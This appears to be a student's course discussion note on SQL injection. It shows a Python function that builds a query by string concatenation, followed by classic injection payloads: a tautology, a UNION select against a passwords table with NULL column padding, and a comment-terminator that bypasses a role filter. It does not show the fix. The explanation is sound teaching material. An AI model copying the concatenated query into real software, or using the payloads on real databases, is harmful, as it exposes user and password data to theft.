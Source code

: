 ```yaml
---
layout: notes
---
```

# Discussion 1: SQL Injection - peer response

The following code is vulnerable to SQL Injection, if the input is unfiltered.

```python
  def get_userdata(self, id):
     cursor = db.cursor()
     cursor.execute('SELECT * FROM users WHERE id = '+ id)
     return cursor.fetchall()
```

To return all the records, the attacker could trigger a call with

```
   id = "1 OR 1=1"
```

It is also possible to execute multiple queries with

```
   id = "1 OR 1; union select * from passwords"
```

The latter may not work when tables have different columns, but it can be fixed easily to align the them. In this example the table passwords has two columns less than users:

```
   id = "1 OR 1; union select *,NULL,NULL from passwords"
```

Imagine now the following query:

```sql
   SELECT * FROM users WHERE id = ' + id + ' and role = 'student'
```

It can be attacked with:

```
   id = "1 OR 1=1;--"
```

resulting in

```sql
   SELECT * FROM users WHERE id = 1 OR 1=1;-- and role = 'student'
```

and therefore returning all values of users, regardless the role

<img src="exploits_of_a_mom.png" class="img-responsive"/>
